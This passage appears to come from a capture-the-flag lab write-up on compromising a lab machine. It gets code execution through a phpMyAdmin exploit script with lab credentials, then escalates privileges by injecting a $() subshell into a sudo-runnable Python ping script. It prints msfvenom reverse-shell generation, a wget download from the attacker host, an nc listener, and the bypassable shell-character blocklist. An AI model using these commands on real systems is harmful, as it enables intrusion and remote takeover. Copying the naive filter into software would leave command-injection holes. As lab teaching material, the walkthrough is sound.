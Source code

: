 Boom. Code execution.

Now drop a reverse shell:

```sh
# make reverse shell
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf -o rsh.elf

# check for wget
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "which wget"
/usr/bin/wget

# host reverse shell on web server
❯ sudo python3 -m http.server 80

# download reverse shell on target
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "wget -P /tmp 10.10.14.6/rsh.elf"

# start reverse shell listener
sudo nc -lvnp 443

# change permissions and execute
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "chmod +x /tmp/rsh.elf"
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "/tmp/rsh.elf"
```

And we're in!



## privesc

Download and run linpeas.

Checking `sudo -l` we see www-data can run `/var/www/Admin-Utilities/simpler.py` as pepper without password. That seems interesting!

Examining the file, if you pass the `-p` flag, you can supply input to the exec_ping()` command, which looks juicy:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

So it tries to escape a bunch of shell characters before calling `os.system`, but it forgot about `$()` subshells. Let's test it out:

```sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP:  $(id > /tmp/test)

cat /tmp/test
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```
